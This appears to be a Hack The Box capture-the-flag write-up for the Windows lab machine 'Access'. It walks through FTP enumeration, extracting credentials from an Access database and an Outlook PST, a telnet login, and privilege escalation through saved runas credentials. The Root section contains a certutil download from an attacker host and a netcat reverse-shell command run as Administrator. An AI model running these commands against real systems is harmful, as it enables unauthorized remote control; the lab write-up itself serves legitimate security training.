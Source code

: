```yaml
---
title: "[HTB] Machine: Access"
description: "[HTB] Machine: Access"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Access"
    identifier: htb-machine-access
    parent: htb-machines-windows
    weight: 10
hero: images/access.png
tags: ["HTB", "mdbtools", "readpst", "mutt", "telnet", "runas", "cached-creds", "dpapi", "pylnker"]
---
```


# Access
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.98    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:20 BST
Nmap scan report for 10.10.10.98 (10.10.10.98)
Host is up (0.094s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -29s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds
```
- Web Server

![](./images/1.png)

## Foothold/User
- Let's enumerate `ftp`
  - Traverse directories and download everything

![](./images/2.png)

- We see `Access Control` archive
  - I tried unzipping with `unzip`, but had no success
  - Using `7z` was more successful, since it asked for password
  - So now we need to look for password

![](./images/3.png)

![](./images/4.png)

- Let's check `backup` file
  - It's a `Microsoft Access Database`
  - We can use `mdbtools`
    - `sudo apt install mdbtools`
  - List the tables

![](./images/5.png)

- We see `auth_-_user` table
  - Let's dump it

![](./images/6.png)

- We can try each password to unzip the `Access Control` archive

![](./images/7.png)

- After unzipping we get a `pst` file, which is `Microsoft Outlook email folder`
  - I used `readpst`
  - `sudo apt install pst-utils`

![](./images/8.png)

- It's a plain text file
  - Just open it with  `less 'Access Control.mbox'`
  - We see an email with creds

![](./images/9.png)

- We have open `telnet` port
  - Let's connect with obtained creds

![](./images/10.png)

## Root
- Let's enumerate for privesc
  - We find a interesting `lnk` file
  - It runs `runas` with `savecred` options
  - Let's check `cmdkey` for saved credentials

![](./images/11.png)

![](./images/12.png)

- We see that we have `ACCESS\Administrator`'s credentials saved
  - Let's use them and get our root
  - Download nc: `certutil -urlcache -f http://10.10.16.3:8000/shell.ps1 shell.ps1`
  - And start reverse shell: `runas /user:ACCESS\Administrator /savecred "nc.exe 10.10.16.3 6666 -e cmd"`

![](./images/13.png)

![](./images/14.png)

- Check [0xdf's blog](https://0xdf.gitlab.io/2019/03/02/htb-access.html) for other privesc paths
